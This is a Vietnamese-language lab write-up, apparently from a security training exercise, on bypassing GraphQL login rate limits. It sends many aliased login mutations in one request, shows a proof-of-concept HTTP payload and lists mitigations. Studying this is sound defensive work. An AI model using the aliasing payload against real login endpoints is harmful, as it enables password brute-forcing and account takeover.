

# Lab: Bypassing GraphQL brute force protections

**Mục tiêu:** Đăng nhập vào tài khoản `carlos` bằng cách vượt qua cơ chế giới hạn số lần thử mật khẩu (brute-force protection).

**Phát hiện (Detect)**

- Gửi mutation login tiêu chuẩn:

```http
POST /graphql/v1
Content-Type: application/json

{
  "query": "mutation login($input: LoginInput!) { login(input: $input) { token success } }",
  "variables": { "input": { "username": "carlos", "password": "guess" } }
}
```

- Server phản hồi: `You have made too many incorrect login attempts. Please try again in 1 minute(s).` → có cơ chế giới hạn số lần thử.

**Khai thác (Exploit)**

- Vấn đề: giới hạn được áp dụng trên mỗi mutation/endpoint khi gọi nhiều lần, nhưng GraphQL cho phép aliasing để gửi nhiều mutation khác tên trong cùng một request.
- Kỹ thuật: gửi nhiều mutation khác tên (sử dụng alias) trong một request duy nhất để thực hiện nhiều lần thử mà không kích hoạt giới hạn.

Ví dụ PoC payload:

```http
POST /graphql/v1
Content-Type: application/json

{
  "query": "mutation login {\n    brutal1: login(input: { username: \"carlos\", password: \"wrongpassword1\" }) { token success }\n    brutal2: login(input: { username: \"carlos\", password: \"wrongpassword2\" }) { token success }\n    brutal3: login(input: { username: \"carlos\", password: \"wrongpassword3\" }) { token success }\n  }"
}
```

- Kết quả: nhiều lần thử được gửi trong một request duy nhất; nếu server không tổng hợp số lần thử theo tài khoản, cơ chế giới hạn có thể bị bypass.

**Mitigation (Giải pháp)**

- Áp dụng giới hạn dựa trên tài khoản (`username`) thay vì trên từng mutation hoặc từng request. Tổng hợp số lần thử từ tất cả mutation/alias trong cùng một request.
- Thêm cơ chế phát hiện pattern bất thường: nhiều mutation login trong một request → chặn hoặc yêu cầu CAPTCHA.
- Khóa tài khoản tạm thời sau một ngưỡng lỗi hợp lý và thông báo cho người dùng.
- Giới hạn theo IP + fingerprinting kết hợp để giảm false positive/negative.

**PoC/Chứng thực**

- Hình ảnh minh họa kết quả thành công: 

**Kết luận ngắn**

- GraphQL aliasing có thể được lợi dụng để thực hiện nhiều truy vấn/mutation trong cùng một request; các cơ chế chống brute-force cần tổng hợp và đánh giá các mutation này theo bối cảnh tài khoản để tránh bị bypass.
